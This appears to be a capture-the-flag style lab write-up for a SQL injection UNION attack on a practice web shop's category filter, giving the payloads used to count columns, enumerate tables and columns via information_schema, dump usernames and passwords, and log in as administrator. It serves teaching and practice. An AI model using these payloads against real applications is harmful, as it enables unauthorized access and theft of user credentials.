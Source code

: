 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

> Using the payload 'UNION+SELECT+NULL,NULL-- we were able to determine there are two columns

![image](https://github.com/udayk01/Web-Security/assets/52235763/33d4a997-721d-493f-a246-222ec4a18ab8)

> Now we listed the tables in the database using the query '+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--

![image](https://github.com/udayk01/Web-Security/assets/52235763/c3970970-2a04-4995-bf90-0b7295aad89c)

> users_qczzvu is the required table

![image](https://github.com/udayk01/Web-Security/assets/52235763/5a43dc48-606a-4b63-91ee-5565b97fac9f)

> The payload '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_qczzvu'-- was used to list the columns in the table users_qczzvu

![image](https://github.com/udayk01/Web-Security/assets/52235763/18ac976a-04c2-40e2-bffc-a559b8b2da25)

> The payload '+UNION+SELECT+username_ipifwd,+password_rsyuvu+FROM+users_qczzvu-- is used to list the users and their passwords in the table.

![image](https://github.com/udayk01/Web-Security/assets/52235763/9da0a15f-608b-4ea7-bce9-552e113bb53f)

![image](https://github.com/udayk01/Web-Security/assets/52235763/5f46d7aa-cbfd-4707-8d8c-09c9db100ec5)

> Finally logged in as administrator.

![image](https://github.com/udayk01/Web-Security/assets/52235763/b5226b33-7469-42fa-afc2-665b3d23640e)

![image](https://github.com/udayk01/Web-Security/assets/52235763/ad77930a-70a8-493a-a1b1-36285cbd3435)





























